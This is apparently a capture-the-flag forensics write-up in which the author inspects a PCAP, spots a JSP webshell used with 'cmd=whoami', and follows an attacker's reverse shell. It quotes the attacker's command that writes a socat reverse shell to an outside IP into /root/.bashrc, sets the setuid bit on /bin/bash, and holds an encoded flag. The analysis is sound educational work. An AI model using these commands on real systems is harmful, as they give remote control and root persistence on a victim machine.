


# Forensics - Wrong Spooky Season

For this challenge we got a single PCAP. As usual with a PCAP, we opened it in Wireshark so we can see whats inside.

It wasn't a very large PCAP and just skimming through we could see some unusual traffic. Take a look at the picture below and see if you can spot whats wrong here:

<figure><figcaption></figcaption></figure>

If you didnt spot it, its the cmd=\*. Seeing an argument for cmd= anything, let alone 'whoami' and 'id', is a red flag. This was some sort of jsp webshell that an attacker was abusing. Following this along we see the attacker get a reverse shell and right-clicking and following the traffic shows us what is being communicated to and from the attacker over this connection.

<figure><figcaption></figcaption></figure>

As you can see in blue the attacker is doing some very suspicious commands that would definitely catch the attention of anyone monitoring this system. There's a particularly long command at the end though where the attacker runs:

```
socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha
```

This contains a base64 encoded, and then reversed, payload of some sort. Pasting it into Cyberchef and decoding it shows us the flag.

PWNED
